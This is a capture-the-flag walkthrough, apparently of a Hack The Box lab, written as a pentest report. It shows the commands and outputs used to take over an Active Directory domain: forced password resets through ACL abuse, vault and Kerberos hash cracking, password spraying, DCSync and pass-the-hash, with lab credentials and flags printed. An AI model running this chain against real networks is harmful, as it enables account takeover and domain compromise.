






# SUMMARY#

This penetration test successfully achieved full domain compromise of the administrator.htb domain through a chain of privilege escalation attacks. Initial access was gained via valid credentials for the user Olivia (password: ichliebedich), discovered through reconnaissance.

BloodHound analysis revealed Olivia possessed GenericAll permissions over the user Michael, allowing a password reset to 'Password123!'. Compromising Michael revealed ForceChangePassword rights over Benjamin, whose password was reset to 'Password1234!'. Benjamin provided FTP access, where a Password Safe database (Backup.psafe3) was downloaded and cracked, revealing the password 'tekieromucho'.

The database contained credentials for users alexander, emily, and emma. Password spraying authenticated emily (password: UXLCI5iETUsIBoFVTj8yQFKoHjXmb). BloodHound showed emily had GenericWrite over ethan, enabling a Targeted Kerberoast attack. The resulting hash was cracked, revealing ethan's password: 'limpbizkit'.

Ethan possessed DCSync privileges, allowing extraction of the Administrator's NTLM hash (3dc553ce4b9fd20bd016e098d2d2fd2e). This hash was used in a Pass-the-Hash attack with Evil-WinRM, granting full Domain Administrator access. Both user (92cdd3bdd78b53b506c15c74f1851e8b) and root (ca22bf18e3f4a99e4d94ac46b4cak84a) flags were captured, demonstrating complete domain compromise.

## NMAP

The command `sudo nmap -sC -sV 10.129.31.39 --open` initiates a comprehensive network scan of the target host at IP address 10.129.31.39. Executing Nmap with `sudo` privileges allows for more advanced scanning techniques, including default TCP SYN scan. The `-sC` option runs a script scan using the default set of NSE scripts, which performs a wide range of checks including version detection and common vulnerability checks. The `-sV` option enables version detection, probing open ports to determine the specific service name and version number. The `--open` switch filters the output to show only ports that are in an open state, significantly reducing clutter by excluding closed or filtered ports. This command provides a detailed enumeration of accessible services, their versions, and potential security findings on the target system.

```bash
sudo nmap -sC -sV  10.129.31.39  --open 
```

The Nmap scan results indicate the target is a Windows Server operating as an Active Directory Domain Controller for the domain administrator.htb. Key services identified include FTP on port 21, DNS on port 53, and the critical Kerberos authentication service on port 88. The presence of SMB on ports 139 and 445, coupled with the finding that SMB signing is enabled and required, is a significant security configuration. Lightweight Directory Access Protocol services are running on ports 389, 636, 3268, and 3269, confirming the host's role as a directory server. The availability of WinRM on port 5985 provides a potential remote management endpoint. The hostname is identified as DC, and the system time has a considerable clock skew of seven hours.

```bash
21/tcp   open  ftp           Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-11-08 17:41:34Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: administrator.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: administrator.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 7h00m00s
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-11-08T17:41:43
|_  start_date: N/A
```

The NetExec command executed an unauthenticated SMB enumeration scan against the target 10.129.31.39. The scan successfully gathered critical information about the remote host, confirming it is a Windows Server 2022 Build 20348 x64 operating under the hostname DC and the domain administrator.htb. A significant security control was identified with SMB signing being enabled and required, which helps prevent relay attacks. The scan also confirmed that the legacy and insecure SMBv1 protocol is disabled on the host.

```bash
netexec smb 10.129.31.39                                             
SMB         10.129.31.39    445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:False) 
```

The command displays the local hosts file, which has been modified to statically map the IP address 10.129.31.39 to the hostnames for the target domain. The entries include the short name 'dc', the domain name 'administrator.htb', and the fully qualified domain name 'dc.administrator.htb'. This configuration ensures that network requests for these hostnames are correctly resolved to the target's IP address, which is a standard preparatory step for a penetration test to facilitate proper communication with domain services and avoid potential DNS resolution issues.

```bash
cat /etc/hosts
10.129.31.39   dc  administrator.htb dc.administrator.htb
```

The NetExec command performed an SMB authentication attempt against the target using the credentials for the user Olivia with the password ichliebedich. The attempt was successful, as indicated by the positive authentication result. This confirms that the provided credentials are valid for the domain administrator.htb and that the user Olivia has the necessary permissions to authenticate to the Domain Controller via the SMB protocol.

```bash
netexec smb 10.129.31.39 -u Olivia -p ichliebedich
SMB         10.129.31.39    445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:False) 
SMB         10.129.31.39    445    DC               [+] administrator.htb\Olivia:ichliebedich 
                   
```

The BloodHound-Python command was executed to collect Active Directory reconnaissance data. It authenticated to the domain controller at 10.129.31.39 using the credentials for the user olivia within the administrator.htb domain. The tool queried the domain with the specified collection method set to All, which gathers comprehensive information on users, groups, computers, trusts, and permissions. The operation completed successfully, compressing all extracted data into a ZIP file named 20251108105335_bloodhound.zip for subsequent analysis in the BloodHound graphical interface.

```bash
bloodhound-python -u 'olivia' -p 'ichliebedich' -d 'administrator.htb' -c All -ns 10.129.31.39 -v --zip

Compressing output into 20251108105335_bloodhound.zip
```

The BloodHound data reveals a critical privilege escalation path. The user Olivia possesses the GenericAll permission over the user Michael. The GenericAll privilege is a powerful access right that grants full control, allowing Olivia to modify Michael's attributes, including resetting his password. This control can be leveraged to assume Michael's identity and potentially gain access to any resources or permissions assigned to his account.



The BloodHood data shows a further privilege escalation path. The user Michael has the ForceChangePassword permission over the user Benjamin. This privilege allows Michael to reset Benjamin's password without needing to know the current one. By exploiting this, an attacker can change Benjamin's password, effectively compromising the account and gaining access to all of Benjamin's group memberships and assigned permissions.



The BloodHound data indicates that the user Benjamin is a member of the SHARE MODERATORS group. This group membership is significant as it grants Benjamin all privileges and access rights associated with the SHARE MODERATORS group. The permissions of this group should be investigated further to determine if it provides any elevated access to network shares or other domain resources that could be leveraged for further lateral movement or privilege escalation.



The bloodyAD command was used to perform a password reset attack. Authenticating to the domain controller as the user olivia, the tool successfully changed the password for the user MICHAEL to a new known value, 'Password123!'. This action was possible due to the previously identified GenericAll permission that olivia held over the MICHAEL user account, demonstrating the exploitation of this excessive permission to compromise a second user.

```bash
bloodyAD --host 10.129.31.39  -d dc.administrator.htb  -u olivia -p 'ichliebedich' set password MICHAEL 'Password123!' 

[+] Password changed successfully!

```

The NetExec command successfully authenticated to the SMB service using the newly set credentials for the user MICHAEL with the password Password123!. This confirms that the password reset operation performed with bloodyAD was effective and that the compromised MICHAEL account credentials are valid, providing access to the domain resources available to that user.

```bash
netexec smb 10.129.31.39 -u MICHAEL -p Password123!            
SMB         10.129.31.39    445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:False) 
SMB         10.129.31.39    445    DC               [+] administrator.htb\MICHAEL:Password123! 
```

The bloodyAD command was used to perform a second password reset attack. This time, authenticating with the compromised MICHAEL account credentials, the tool successfully changed the password for the user BENJAMIN to a new known value, 'Password1234!'. This action exploited the ForceChangePassword permission that the user MICHAEL held over the BENJAMIN user account, demonstrating the lateral movement and escalation of access through the compromised user chain.

```bash
bloodyAD --host 10.129.31.39  -d dc.administrator.htb  -u MICHAEL -p 'Password123!' set password BENJAMIN 'Password1234!' 
[+] Password changed successfully!
```

The NetExec command successfully authenticated to the SMB service using the newly set credentials for the user BENJAMIN with the password Password1234!. This verifies that the password reset operation for the BENJAMIN account was successful and that the credentials are valid, providing access to the domain resources and group memberships associated with the BENJAMIN account, including the SHARE MODERATORS group.

```bash
netexec smb 10.129.31.39 -u BENJAMIN -p Password1234!                                                              
SMB         10.129.31.39    445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:False) 
SMB         10.129.31.39    445    DC               [+] administrator.htb\BENJAMIN:Password1234! 
```

The NetExec command successfully authenticated to the FTP service on port 21 of the target using the credentials for the user BENJAMIN. This confirms that the BENJAMIN account has access to the FTP service, allowing for the enumeration and potential retrieval of files from the FTP server.

```bash
netexec ftp administrator.htb -u BENJAMIN -p Password1234! 
FTP         10.129.31.39    21     administrator.htb [+] BENJAMIN:Password1234!
```

An FTP connection was established to the target server using the BENJAMIN credentials. Upon successful login, a directory listing was performed which revealed a single file named Backup.psafe3. This file, with a size of 952 bytes, was subsequently downloaded to the local machine. The file extension .psafe3 is associated with the Password Safe password management application, indicating this is likely a password database vault. The warning about bare linefeeds suggests a potential minor transfer issue, but the file was received in its entirety.

```bash
ftp 10.129.31.39                                            
Connected to 10.129.31.39.
220 Microsoft FTP Service
Name (10.129.31.39:kali): BENJAMIN
331 Password required
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
229 Entering Extended Passive Mode (|||53664|)
125 Data connection already open; Transfer starting.
10-05-24  08:13AM                  952 Backup.psafe3
226 Transfer complete.
ftp> get Backup.psafe3
local: Backup.psafe3 remote: Backup.psafe3
229 Entering Extended Passive Mode (|||53665|)
125 Data connection already open; Transfer starting.
100% |************************************************************************************************************************************************|   952       11.34 MiB/s    00:00 ETA
226 Transfer complete.
WARNING! 3 bare linefeeds received in ASCII mode.
File may not have transferred correctly.
952 bytes received in 00:00 (2.81 MiB/s)
ftp> exit
221 Goodbye.
```

The pwsafe2john command was used to process the acquired Backup.psafe3 password database file. This tool extracts the password hash from the Password Safe vault into a format suitable for cracking with John the Ripper. The resulting hash was saved to a file named backup.hash for subsequent offline password cracking attempts.

```bash
pwsafe2john Backup.psafe3 > backup.hash
```

John the Ripper was executed with the rockyou.txt wordlist to crack the hash extracted from the Backup.psafe3 file. The password for the vault was successfully cracked and identified as "tekieromucho". This provides the passphrase required to unlock and access the contents of the Password Safe database.

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt backup.hash
Using default input encoding: UTF-8
Loaded 1 password hash (pwsafe, Password Safe [SHA256 256/256 AVX2 8x])
Cost 1 (iteration count) is 2048 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
tekieromucho     (Backu)     
1g 0:00:00:01 DONE (2025-11-08 11:48) 0.9615g/s 5907p/s 5907c/s 5907C/s newzealand..iheartyou
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 


```

The command sudo apt install passwordsafe --fix-missing was executed to install the PasswordSafe application. The --fix-missing option instructs the package manager to attempt to correct a system with broken dependencies in place. This installation is a prerequisite step to open and examine the contents of the cracked Backup.psafe3 password database file using its native graphical user interface.

```bash
sudo apt install passwordsafe --fix-missing
```

The pwsafe command was executed to launch the Password Safe application. This graphical tool is now being used to open the previously acquired and decrypted Backup.psafe3 database file. By providing the cracked password "tekieromucho", the contents of the vault, which likely contain additional credentials or sensitive information, can be accessed and reviewed.

```bash
pwsafe

```

The image shows the Password Safe application interface prompting for the master password to unlock the Backup.psafe3 database file located on the Kali desktop. The "Open as read-only" option is available. The next step is to enter the cracked master password "tekieromucho" to gain access to the stored credentials within the vault.


The Password Safe vault has been successfully unlocked with the master password. The interface displays three stored credential entries for users Alexander Smith, Emily Rodriguez, and Emma Johnson, each with an associated username in brackets. The presence of these credentials within the database provides a new set of potential accounts that can be used for further authentication attempts and lateral movement within the domain.


The command displays the contents of a file named users.txt, which contains the three usernames extracted from the Password Safe vault: alexander, emily, and emma. This file is likely being prepared for use in a subsequent attack, such as a password spraying campaign, to test these discovered usernames against the domain.

```bash
cat  users.txt                            
alexander
emily
emma
```

The command displays the contents of a file named password.txt, which contains three distinct passwords. These passwords were presumably extracted from the Password Safe vault entries for the users alexander, emily, and emma. This file, in conjunction with the users.txt file, provides a set of credentials to be used for authenticating to domain services.

```bash
cat  password.txt 
UrkIbagoxMyUGw0aPlj9B0AXSea4Sw
UXLCI5iETUsIBoFVTj8yQFKoHjXmb
WwANQWnmJnGV07WQN8bMS7FMAbjNur
```
A password spraying attack was conducted using NetExec against the target IP 10.129.176.86. The attack used the list of usernames from users.txt and the list of potential passwords from password.txt. The operation successfully found valid credentials for the user emily with the password UXLCI5iETUsIBoFVTj8yQFKoHjXmb, as indicated by the positive authentication result. All other username and password combinations resulted in logon failures.

```bash
netexec smb 10.129.176.86 -u users.txt -p password.txt --continue-on-success
SMB         10.129.176.86   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:False) 
SMB         10.129.176.86   445    DC               [-] administrator.htb\alexander:UrkIbagoxMyUGw0aPlj9B0AXSea4Sw STATUS_LOGON_FAILURE 
SMB         10.129.176.86   445    DC               [-] administrator.htb\emily:UrkIbagoxMyUGw0aPlj9B0AXSea4Sw STATUS_LOGON_FAILURE 
SMB         10.129.176.86   445    DC               [-] administrator.htb\emma:UrkIbagoxMyUGw0aPlj9B0AXSea4Sw STATUS_LOGON_FAILURE 
SMB         10.129.176.86   445    DC               [-] administrator.htb\alexander:UXLCI5iETUsIBoFVTj8yQFKoHjXmb STATUS_LOGON_FAILURE 
SMB         10.129.176.86   445    DC               [+] administrator.htb\emily:UXLCI5iETUsIBoFVTj8yQFKoHjXmb 
SMB         10.129.176.86   445    DC               [-] administrator.htb\emma:UXLCI5iETUsIBoFVTj8yQFKoHjXmb STATUS_LOGON_FAILURE 
SMB         10.129.176.86   445    DC               [-] administrator.htb\alexander:WwANQWnmJnGV07WQN8bMS7FMAbjNur STATUS_LOGON_FAILURE 
SMB         10.129.176.86   445    DC               [-] administrator.htb\emma:WwANQWnmJnGV07WQN8bMS7FMAbjNur STATUS_LOGON_FAILURE 
```

The NetExec command successfully authenticated to the SMB service using the validated credentials for the user emily. This confirms that the credentials obtained from the password spraying attack are functional and provides SMB-level access to the domain for the emily user account.

```bash
netexec smb 10.129.176.86 -u emily  -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb'                      
SMB         10.129.176.86   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:False) 
SMB         10.129.176.86   445    DC               [+] administrator.htb\emily:UXLCI5iETUsIBoFVTj8yQFKoHjXmb 
                                                     

```

The BloodHound-Python tool was executed to collect Active Directory data using the newly compromised emily account credentials. The tool successfully authenticated to the domain controller and performed a comprehensive collection of all available data, as specified by the All collection method. The harvested information was compressed and saved into a new ZIP file named 20251108124635_bloodhound.zip for analysis within the BloodHound interface to identify further attack paths.

```bash
bloodhound-python -u 'emily' -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb' -d 'administrator.htb' -c All -ns 10.129.176.86  -v --zip

20251108124635_bloodhound.zip
```

The BloodHound data reveals that the user Emily possesses the GenericWrite permission over the user Ethan. The GenericWrite privilege allows Emily to write to non-protected attributes of the Ethan user object. This can be abused for privilege escalation, notably through techniques such as writing a script to the target's logon script attribute or configuring credential delegation settings, which could lead to compromising the Ethan account.



The BloodHound interface provides explicit guidance on how to abuse the GenericWrite permission held by Emily over Ethan. It recommends using a Targeted Kerberoast attack, which can be performed with the targetedKerberoast.py tool. This attack would allow Emily to request an encrypted Kerberos ticket for Ethan's account, provided Ethan has a Service Principal Name, and obtain a crackable hash for offline password cracking, potentially leading to a full compromise of the Ethan account.




The command sudo git clone [https://github.com/ShutdownRepo/targetedKerberoast.git](https://github.com/ShutdownRepo/targetedKerberoast.git) was executed to download the targetedKerberoast toolkit from its GitHub repository. This tool is required to perform the Targeted Kerberoast attack identified as the viable exploitation path for the GenericWrite permission that the user emily holds over the user ethan.

```bash
 sudo git clone https://github.com/ShutdownRepo/targetedKerberoast.git
```

The command curl -LsSf [https://astral.sh/uv/install.sh](https://astral.sh/uv/install.sh) | sh was executed to download and run the installation script for uv, a Rust-based Python package and project manager. This tool is likely being installed to manage the dependencies or execute the targetedKerberoast Python script that was previously cloned, as it provides a fast and modern workflow for handling Python tooling and environments.

```
curl -LsSf https://astral.sh/uv/install.sh | sh
```

The command sudo ntpdate 10.129.176.86 was used to synchronize the local system's time with the time on the Domain Controller at 10.129.176.86. This is a critical preparatory step for Kerberos-based attacks, as the Kerberos protocol is highly sensitive to time skew between clients and servers. A significant time difference would cause Kerberos authentication requests to fail. The output indicates the local clock was adjusted forward by approximately 7 hours to match the domain time.

```bash
sudo ntpdate  10.129.176.86                                                                     
2025-11-08 20:11:45.007026 (+0000) +25236.566153 +/- 0.033093 10.129.176.86 s1 no-leap
CLOCK: time stepped by 25236.566153
```

The targetedKerberoast.py script was successfully executed using the emily credentials. The tool authenticated to the domain, identified the user ethan as a viable target, and automatically added a Service Principal Name to the ethan account by exploiting Emily's GenericWrite permission. It then requested a Kerberos service ticket for ethan and obtained a Kerberos TGS hash in a format suitable for offline cracking with tools like Hashcat or John the Ripper.

```bash
uv run targetedKerberoast.py -v -d 'administrator.htb' -u emily -p UXLCI5iETUsIBoFVTj8yQFKoHjXmb
[*] Starting kerberoast attacks
[*] Fetching usernames from Active Directory with LDAP
[VERBOSE] SPN added successfully for (ethan)
[+] Printing hash for (ethan)
$krb5tgs$23$*ethan$ADMINISTRATOR.HTB$administrator.htb/ethan*$f101b0fd10c37163e00f67c1de9dce98$ce3df13079b91ddf09d0d00ff7ae51a36e47d6e14a1083a6911360c6e6148ba2f5b3bcd51fba744a8e8257a6c5aaadc7b4d5dfdd0534fcb3fa3de2035130d16b83958ab9f4575ae0539432f362242c168c2403a9a2bff6fd6d6dcd2e6c0df53fbe421190d8cb5a929b5812f24e6d749eeb8dbd467af8085c31c8cebb2596f67593eda7c675d1adb46888eb570f4e2d79f09a29e7248b7dbe013c22cfae1365e29175c0e4c21f78739d79426fbe35fc80ab7192335bdfd5c759fb89402b6eae1f453feba1fde76ee4eebff036d401326d293b9c56dfd3c273a46e34576172a2267cd2a9dc56cc843466fc218e473e0c6fa01b5294f52153d7e918771f94943c5eb86a200a53707248657863144cf320c23236b50d866d545776faddf3d2df64b56ac7653dee3927e8b2c601bdc8b9204a734631e6081629a7175967ad09e45416bd48adad7b8354196f508026dc46613191688c9244298d976c0ae42de911f492b6bee634ebf24d7870ca006c9cfa0cad4b2979f32a694ea6d38515126ff5d99f4d32d29026d69ac76effc870050146eb6e462e7754fef7f91c8514574aea2b0bcadb7a1df73e98a75e58c033c35ebaa7113bd62ae912899bc1391c1478f4aa45f12a560659eb221f71ae9e4cbf1511e23bdc433a6c4be652e8978ea07feb297df18f82cb898279dc497df768bd43760edf7ff79084660cf6d50fb126cefabd5aa9fb1a9f6999a22964e35162e41af87c7b7e9f33f2b436d4b00f7919362924fb41de18ee000131c275531df96c1282f44f52f6ef34d17889b6717c3176cfb9bf0b1c0c38e01809bc91f18457f54877dcc024c0eb27aa4533c5074667c01928d99030f1865710521fc3975fa8b5a425ac54f99615b54b0da5fef81ea5a67178c418176acca4d95496747a2c0c68fa218ba05a98d6ff73aaebb8ab1e8a06849f983eeec1a06411c99445ff634c7388d7f1dfa7c2d919543dd275566fbe775a6baf89109e0656eeae447fcf12370fc2e5a94ccd5c74e399907ea8f5a8789e3f104cc35cc19ff02b817105b173d1892ecb1c634534794989d2cb3ea12c3df0441d334ef7693375d0d6615359d46294b39c8fb5c1d172c675b58f7f6111f76152ffda1116ca4a799283d1c27931b94f569c421d8a64f0b1273cd3ddd6c61ea6a049e3bf18203fdfc2f9b56147ef9ada6898cbbfff5eabd9b62336ed1d9a2c59cdd260d7448bdc8de367d56ce053614b0595c713d6bddcaa0473d34ac118dc550da04ee0f127d29eee769c33a8547332340ae1efc9aad95102b42f73bb97fa2b1ef253e45da35362efeef00cc771aa2144bccb9bb22cf9560da9339a480b4cff2022f2263fa7886e5253c0999e67fd315ff453c11ee89bef8320b98805fb79d2e49e9f1475a1cfef1b4e9cb4f564733ce763d38865653b3b81ec1e9a9050bf07aaaed6392af43db2e7f74e9ca254157f0ca20405dabfc2fda1b7dc28c69369f7233994e0c987c5b2d7993f5783fc769e033b4562a4e389df4281f78f7f3f1a773242

```

The Kerberos TGS hash for the user ethan, which was output from the targetedKerberoast attack, has been saved to a file named ethan_hash.txt using the echo and tee commands. This file will be used as input for a password cracking tool to attempt to recover ethan's plaintext password from the captured cryptographic hash.

```bash
echo '$krb5tgs$23$*ethan$ADMINISTRATOR.HTB$administrator.htb/ethan*$f101b0fd10c37163e00f67c1de9dce98$ce3df13079b91ddf09d0d00ff7ae51a36e47d6e14a1083a6911360c6e6148ba2f5b3bcd51fba744a8e8257a6c5aaadc7b4d5dfdd0534fcb3fa3de2035130d16b83958ab9f4575ae0539432f362242c168c2403a9a2bff6fd6d6dcd2e6c0df53fbe421190d8cb5a929b5812f24e6d749eeb8dbd467af8085c31c8cebb2596f67593eda7c675d1adb46888eb570f4e2d79f09a29e7248b7dbe013c22cfae1365e29175c0e4c21f78739d79426fbe35fc80ab7192335bdfd5c759fb89402b6eae1f453feba1fde76ee4eebff036d401326d293b9c56dfd3c273a46e34576172a2267cd2a9dc56cc843466fc218e473e0c6fa01b5294f52153d7e918771f94943c5eb86a200a53707248657863144cf320c23236b50d866d545776faddf3d2df64b56ac7653dee3927e8b2c601bdc8b9204a734631e6081629a7175967ad09e45416bd48adad7b8354196f508026dc46613191688c9244298d976c0ae42de911f492b6bee634ebf24d7870ca006c9cfa0cad4b2979f32a694ea6d38515126ff5d99f4d32d29026d69ac76effc870050146eb6e462e7754fef7f91c8514574aea2b0bcadb7a1df73e98a75e58c033c35ebaa7113bd62ae912899bc1391c1478f4aa45f12a560659eb221f71ae9e4cbf1511e23bdc433a6c4be652e8978ea07feb297df18f82cb898279dc497df768bd43760edf7ff79084660cf6d50fb126cefabd5aa9fb1a9f6999a22964e35162e41af87c7b7e9f33f2b436d4b00f7919362924fb41de18ee000131c275531df96c1282f44f52f6ef34d17889b6717c3176cfb9bf0b1c0c38e01809bc91f18457f54877dcc024c0eb27aa4533c5074667c01928d99030f1865710521fc3975fa8b5a425ac54f99615b54b0da5fef81ea5a67178c418176acca4d95496747a2c0c68fa218ba05a98d6ff73aaebb8ab1e8a06849f983eeec1a06411c99445ff634c7388d7f1dfa7c2d919543dd275566fbe775a6baf89109e0656eeae447fcf12370fc2e5a94ccd5c74e399907ea8f5a8789e3f104cc35cc19ff02b817105b173d1892ecb1c634534794989d2cb3ea12c3df0441d334ef7693375d0d6615359d46294b39c8fb5c1d172c675b58f7f6111f76152ffda1116ca4a799283d1c27931b94f569c421d8a64f0b1273cd3ddd6c61ea6a049e3bf18203fdfc2f9b56147ef9ada6898cbbfff5eabd9b62336ed1d9a2c59cdd260d7448bdc8de367d56ce053614b0595c713d6bddcaa0473d34ac118dc550da04ee0f127d29eee769c33a8547332340ae1efc9aad95102b42f73bb97fa2b1ef253e45da35362efeef00cc771aa2144bccb9bb22cf9560da9339a480b4cff2022f2263fa7886e5253c0999e67fd315ff453c11ee89bef8320b98805fb79d2e49e9f1475a1cfef1b4e9cb4f564733ce763d38865653b3b81ec1e9a9050bf07aaaed6392af43db2e7f74e9ca254157f0ca20405dabfc2fda1b7dc28c69369f7233994e0c987c5b2d7993f5783fc769e033b4562a4e389df4281f78f7f3f1a773242' | sudo tee ethan_hash.txt > /dev/null
                                                

```

John the Ripper was executed to crack the Kerberos TGS hash for the user ethan. Using the rockyou.txt wordlist and the specified krb5tgs format, the password was successfully cracked. The plaintext password for the ethan account is "limpbizkit".

```bash
john --format=krb5tgs --wordlist=/usr/share/wordlists/rockyou.txt ethan_hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
limpbizkit       (?)     
1g 0:00:00:00 DONE (2025-11-08 13:21) 10.00g/s 51200p/s 51200c/s 51200C/s Liverpool..babygrl
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

```

The BloodHound data reveals that the user Ethan possesses significant privileges over the domain. Specifically, Ethan has the DCSync privileges, indicated by the GetChangeAll, GetChanges, and GetChangeInFilteredSet permissions on the administrator.htb domain object. The DCSync permission allows a user to mimic the behavior of a Domain Controller and synchronize replication data, which includes the ability to retrieve the password hashes for all domain users.



The secretsdump.py tool was executed using the compromised ethan credentials with the DCSync permission. The command specifically targeted the Domain Administrator account, successfully retrieving its NTLM password hash, which is aad3b435b51404eeaad3b435b51404ee:3dc553ce4b9fd20bd016e098d2d2fd2e, along with its Kerberos keys. This NTLM hash can be used for Pass-the-Hash attacks to gain administrative access to the domain.

```bash
secretsdump.py -dc-ip 10.129.176.86 administrator.htb/ethan:limpbizkit@10.129.176.86 -just-dc-user administrator


Administrator:500:aad3b435b51404eeaad3b435b51404ee:3dc553ce4b9fd20bd016e098d2d2fd2e:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:9d453509ca9b7bec02ea8c2161d2d340fd94bf30cc7e52cb94853a04e9e69664
Administrator:aes128-cts-hmac-sha1-96:08b0633a8dd5f1d6cbea29014caea5a2
Administrator:des-cbc-md5:403286f7cdf18385

```

The evil-winrm command was executed to establish a remote PowerShell session on the Domain Controller. Using the Pass-the-Hash technique with the Administrator's NTLM hash, it successfully authenticated to the target IP 10.129.176.86. This provides a command-line interface with the highest level of privilege on the domain, achieving the primary objective of domain compromise.

```bash
evil-winrm -i 10.129.176.86 -u 'Administrator' -H 3dc553ce4b9fd20bd016e098d2d2fd2e

```

The command cat user.txt was executed within the Evil-WinRM session on the Domain Controller. The contents of the user.txt flag, 92cdd3bdd78b53b506c15c74f1851e8b, have been successfully retrieved. This flag typically represents the proof of user-level compromise in a penetration testing engagement.

```bash
Evil-WinRM* PS C:\Users\emily\Desktop> cat user.txt
92cdd3bdd78b53b506c15c74f1851e8b
```

The command cat root.txt was executed within the Evil-WinRM session on the Domain Controller from the Administrator's desktop. The contents of the root.txt flag, ca22bf18e3f4a99e4d94ac46b4caf84a, have been successfully retrieved. This flag represents the proof of full domain administrator compromise and is the final objective of the penetration test.

```bash
Evil-WinRM* PS C:\Users\Administrator\Desktop> cat root.txt
ca22bf18e3f4a99e4d94ac46b4caf84a
```
